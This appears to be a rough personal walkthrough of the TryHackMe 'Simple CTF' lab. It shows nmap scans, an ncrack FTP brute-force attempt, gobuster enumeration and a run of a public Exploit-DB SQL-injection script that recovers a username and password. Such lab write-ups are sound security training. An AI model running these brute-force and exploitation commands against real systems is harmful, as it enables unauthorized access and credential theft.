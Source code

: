 # simplectf tryhackme

> ip = 10.10.165.13

1. nmap scan 
	> got this
	```
	Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-03 15:54 IST
	Stats: 0:00:49 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
	NSE Timing: About 99.75% done; ETC: 15:55 (0:00:00 remaining)
	Nmap scan report for 10.10.165.13
	Host is up (0.19s latency).
	Not shown: 997 filtered ports
	PORT     STATE SERVICE VERSION
	21/tcp   open  ftp     vsftpd 3.0.3
	| ftp-anon: Anonymous FTP login allowed (FTP code 230)
	|_Can't get directory listing: TIMEOUT
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to ::ffff:10.9.5.183
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      At session startup, client count was 1
	|      vsFTPd 3.0.3 - secure, fast, stable
	|_End of status
	80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
	| http-robots.txt: 2 disallowed entries 
	|_/ /openemr-5_0_1_3 
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Apache2 Ubuntu Default Page: It works
	2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
	|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
	|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	```

2. trying to gain acses in ftp server using ncarck and '/usr/share/seclists/Passwords/Common-Credentials/best110.txt' wordlist | failed

3. I tried to use nmap scripts to find vuln but it does not have the scripts which i wanted
	```
	nmap --script=ftp* 10.10.165.13
	zsh: no matches found: --script=ftp*
	```

so i used this 
	```
	nmap --script=ftp* 10.10.165.13
	Nmap scan report for 10.10.165.13
	Host is up (0.20s latency).
	Not shown: 997 filtered ports
	PORT     STATE SERVICE
	21/tcp   open  ftp
	|_sslv2-drown: 
	80/tcp   open  http
	|_http-csrf: Couldn't find any CSRF vulnerabilities.
	|_http-dombased-xss: Couldn't find any DOM based XSS.
	| http-enum: 
	|_  /robots.txt: Robots file
	| http-slowloris-check: 
	|   VULNERABLE:
	|   Slowloris DOS attack
	|     State: LIKELY VULNERABLE
	|     IDs:  CVE:CVE-2007-6750
	|       Slowloris tries to keep many connections to the target web server open and hold
	|       them open as long as possible.  It accomplishes this by opening connections to
	|       the target web server and sending a partial request. By doing so, it starves
	|       the http server's resources causing Denial Of Service.
	|       
	|     Disclosure date: 2009-09-17
	|     References:
	|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
	|_      http://ha.ckers.org/slowloris/
	|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
	2222/tcp open  EtherNetIP-1
	
	Nmap done: 1 IP address (1 host up) scanned in 338.84 seconds


	```

4. i tired to check the robots.txt and got this
	```
	#
	# "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $"
	#
	#   This file tells search engines not to index your CUPS server.
	#
	#   Copyright 1993-2003 by Easy Software Products.
	#
	#   These coded instructions, statements, and computer programs are the
	#   property of Easy Software Products and are protected by Federal
	#   copyright law.  Distribution and use rights are outlined in the file
	#   "LICENSE.txt" which should have been included with this file.  If this
	#   file is missing or damaged please contact Easy Software Products
	#   at:
	#
	#       Attn: CUPS Licensing Information
	#       Easy Software Products
	#       44141 Airport View Drive, Suite 204
	#       Hollywood, Maryland 20636-3111 USA
	#
	#       Voice: (301) 373-9600
	#       EMail: cups-info@cups.org
	#         WWW: http://www.cups.org
	#
	User-agent: *
	Disallow: /
	
	
	Disallow: /openemr-5_0_1_3 
	#
	# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
	#

	```
	
5. i saw some walkthrogh and saw gobuster so lets use it
	```
	gobuster dir -u http://10.10.165.13/ -w /usr/share/dirb/wordlists/common.txt

	```
	and found a '/simple' path 'http://10.10.165.13/simple/'
6. trying to exploit this 'http://10.10.165.13/simple/' site because it is vulnerrable to sal iject after googling is found this script 
'https://www.exploit-db.com/exploits/46635' not lets use it
	```
	python2 46635.py -u http://10.10.165.13/simple/ --crack -w /usr/share/wordlists/rockyou.txt
	
	
	```
user: mitch
password: 0c01f44468b2




